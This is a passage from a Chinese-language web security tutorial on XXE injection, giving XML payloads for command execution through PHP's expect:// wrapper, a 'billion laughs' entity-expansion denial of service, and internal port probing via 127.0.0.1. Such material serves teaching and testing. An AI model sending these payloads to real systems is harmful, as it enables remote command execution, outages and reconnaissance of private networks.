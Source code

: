 ##### 2、执行系统命令

在安装 expect 扩展的 PHP 环境里执行系统命令，其他协议也有可能可以执行系统命令。

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```

通过 XXE 可以实现 RCE 的实例很少。

##### 3、拒绝服务攻击 (Dos)

```plain
<?xml version="1.0"?>
   <!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

**原理**：递归引用，lol 实体具体还有“lol”字符串，然后一个 lol2 实体引用了 10 次 lol 实体，一个 lol3 实体引用了 10 次 lol2 实体，此时一个 lol3 实体就含有 10^2 个“lol”了，以此类推，lol9 实体含有 10^8 个“lol”字符串，最后再引用 lol9。

##### 4、探测内网端口与攻击内网网站

**探测内网端口**

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >]>
<root>
<name>&xxe;</name>
</root>
```

3306 端口开放  
[![](assets/1698897471-934d159eee114ab693147ed28ae3d5b2.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202152107-4ea0fe60-14d4-1.jpg)  
3389 端口未开放  